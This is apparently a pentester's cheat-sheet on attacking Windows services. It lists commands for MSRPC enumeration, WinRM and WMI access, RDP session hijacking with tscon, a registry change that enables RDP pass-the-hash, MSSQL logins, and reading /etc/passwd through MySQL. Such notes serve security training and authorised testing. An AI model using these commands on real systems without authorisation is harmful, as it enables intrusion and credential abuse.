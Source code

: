 Read files with MySQL: `select LOAD_FILE("/etc/passwd");`

# Windows Protocols


MSRPC. 135
- `rpcclient [IP] -U [user]` for MS-RPC
		- once authenticated, try these commands:
		- `srvinfo`
		- `enumdomains`
		- `netshareenumall`
		- `enumdomusers`
		- `queryuser [RID]`
 
WinRM, 5985, 5986
	- `evil-winrm -i [IP] -u [user] -p [pass]`

WMI, 135
	- impacket `wmiexec.py user:"[pass]"@[IP] "[hostname]"`

## RDP

port 3389
Clients: xfreerdp, remmina, rdesktop

Bluekeep Vuln: https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/
#### Session Hijacking (need System privs)
- `tscon.exe` Microsoft binary https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon
- `tscon #[target_session_ID] /dest:#[current_session]`
- `query user` in cmd to see session names
- If you don't have system privs, try [[Privilege Escalation.canvas|Privilege Escalation]] 

#### RDP PtH
- You will need `Restricted Admin Mode` enabled (it's disabled by default)
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` This command adds a new registry key
- Now you can use `xfreerdp` with the `/pth` option

## MSSQL

Port 1433
if logged onto a command prompt on the machine, connect with the local mssql server with `sqlcmd`

Clients:
- From linux you can use `sqsh` to connect to MSSQL servers
	- MSSQL supports windows account authentication as well, you can use the same credentials
	- If using Windows Authentication credentials, you need to add `.\\accountname` or `[servername]\\[accountname]` to the domain or hostname to the command:
	- `sqsh -S [IP] .\\[user] -P '[pass]' -h`
- `impacket-mssqlclient`, may need to add `-windows-auth` if using windows account credentials
